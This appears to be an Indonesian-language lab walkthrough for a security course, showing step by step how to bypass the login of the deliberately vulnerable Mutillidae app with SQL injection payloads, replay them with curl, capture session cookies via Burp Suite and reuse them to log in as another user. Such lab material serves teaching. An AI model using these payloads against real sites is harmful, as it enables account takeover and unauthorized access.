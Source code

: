 Lesson 6
--------
- **Step 1**    : Setting networks pada mozilla yang ada di Kali Linux dengan mengisi manual proxy dan diisi HHTP Proxy `127.0.0.1` dan port `8080`
- **Step 2**    : Buka aplikasi burpsuite yang sudah ada di Kali, lalu setting `intercept is off` pada tab proxy lalu tab intercept
- **Step 3**    : Lalu klik Login pada mutillidae, lalu ketik `' or 1=1--` dan jangan lupa tambahkan spasi setelah `--` dan login
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/0.JPG)
- **Step 4**    : Lalu buka aplikasi burpsuite, pada tab proxy, lalu HTTP history, buka pada host yang terdapat method post yang telah kita lakukan pada mutillidae
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/1.JPG)
- **Step 5**    : Ketik `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://192.168.100.22/mutillidae/index.php?page=login.php" > login1.txt` juga ketik perintah `grep "Logged In" login1.txt` dan `cat crack_cookies.txt` pada **Terminal** di Kali lali akan muncul seperti pada gambar
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/2.JPG)
- **Step 6**    : Klik login pada web mutillidae, lalu ubah size dari **20** menjadi **50** dan ubah string **pasword** menjadi **text** pada kolom password lalu ketik `samurai` di kolom **Name** dan ketik `' or (1=1 and username='samurai')--` di kolom **Password** dan jangan lupa berikan spasi setelah `--`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/3.JPG)
- **Step 7**    : Lalu buka aplikasi burpsuite, pada tab proxy, lalu HTTP history, buka pada host yang terdapat method **post** yang telah kita lakukan pada mutillidae lalu klik drag semua hasil pada tab raw, klik kanan lalu `copy to file` dan beri nama burp2.txt
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/4.JPG)
- **Step 8**    : Ketik `grep -i cookie burp2.txt` juga ketik perintah `grep -i username burp2.txt`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/5.JPG)
- **Step 9**    : Ketik `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://192.168.100.22/mutillidae/index.php?page=login.php" > login2.txt` juga ketik perintah `grep "Logged In" login2.txt` dan `cat crack_cookies.txt` pada **Terminal** di Kali lali akan muncul seperti pada gambar
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/6.JPG)
- **Step 10**    : Buka cookies manager pada mozilla di Kali, lalu `add new cookie` lalu isi sesuai pada gambar di bawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/7.JPG)
- **Step 11**    : Klik `add new cookie` lalu isi sesuai pada gambar di bawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/8.JPG)
- **Step 12**    : Klik `add new cookie` lalu isi sesuai pada gambar di bawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/9.JPG)
- **Step 13**    : Klik `add new cookie` lalu isi sesuai pada gambar di bawah
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/10.JPG)
- **Step 14**    : Lakukan refresh pada web mutillidae lalu akan terlihat bahwa kita sudah login sebagai `samurai` karena kita sudah menambahkan cookie pada mozilla kita
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%206/11.JPG)
